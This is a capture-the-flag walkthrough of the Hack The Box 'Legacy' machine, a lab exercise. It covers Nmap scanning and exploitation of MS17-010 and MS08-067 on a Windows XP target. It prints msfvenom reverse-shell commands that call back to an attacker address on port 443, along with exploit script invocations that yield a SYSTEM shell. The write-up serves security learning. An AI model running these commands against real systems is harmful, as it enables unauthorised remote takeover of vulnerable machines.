

# Legacy

<figure><figcaption><p>Fig 1. Nmap full port scan</p></figcaption></figure>

Running the full port scan on the target system, ports 135, 139 and 445 were open.&#x20;

<figure><figcaption><p>Fig 2. Nmap Aggressive scan</p></figcaption></figure>

Next, I ran an aggressive Nmap scan using the `-A` flag. From the OS guesses, it is most likely running Microsoft Windows XP SP3.

<figure><figcaption><p>Fig 3. Nmap vuln scanning</p></figcaption></figure>

Using the arguments `--script vuln`, I found the target to be vulnerable to `MS08-067` and `MS17-010`.&#x20;

### MS17-010 (Eternal Blue)

1. Clone the repository containing the exploit for MS17-010 using the command `git clone https://github.com/worawit/MS17-010`
2.  Generate a reverse shell (`shell.exe`) using&#x20;

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 -f exe > shell.exe
    ```

<figure><figcaption><p>Fig 4. Generate shell.exe</p></figcaption></figure>

3. Edit the following section inside the `zzz_exploit.py` file.

<figure><figcaption><p>Fig 5. Before editing <code>zzz_exploit.py</code> file</p></figcaption></figure>

<figure><figcaption><p>Fig 6. After editing <code>zzz_exploit.py</code> file</p></figcaption></figure>

4. Setup Netcat listener.

<figure><figcaption><p>Fig 7. Setup a Netcat listener</p></figcaption></figure>

4. Run the script using the command `python2.7 zzz_exploit.py 10.10.10.4`

<figure><figcaption><p>Fig 8. Running exploit.py file</p></figcaption></figure>

5. &#x20;A reverse shell is obtained on the Netcat listener.

<figure><figcaption><p>Fig 9. Obtained a reverse shell </p></figcaption></figure>

6. To find the locations of the `user.txt` and the `root.txt` files, use the following commands.

```shell
cd \
dir /s user.txt
dir /s root.txt
```

<figure><figcaption><p>Fig 10. Obtaining r the flags</p></figcaption></figure>

### MS08-067

1. Clone the exploit repository using the command `git clone https://github.com/andyacer/ms08_067.git`.&#x20;
2. Use the command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows` to generate a reverse shell shellcode.

<figure><figcaption><p>Fig 11. Generating reverse shell shellcode</p></figcaption></figure>

3. Running the command `python2.7 ms08_067_2018.py` shows the OS number for Windows XP SP3 English (NX) as 6.

<figure><figcaption><p>Fig 12. Help page for the script</p></figcaption></figure>

4. Running the command `python2.7 ms08_067_2018.py 10.10.10.4 6 445` , I managed to obtain a reverse shell with SYSTEM privileges.

<figure><figcaption><p>Fig 13. Running the exploit script</p></figcaption></figure>

<figure><figcaption><p>Fig 14. Obtained reverse shell</p></figcaption></figure>
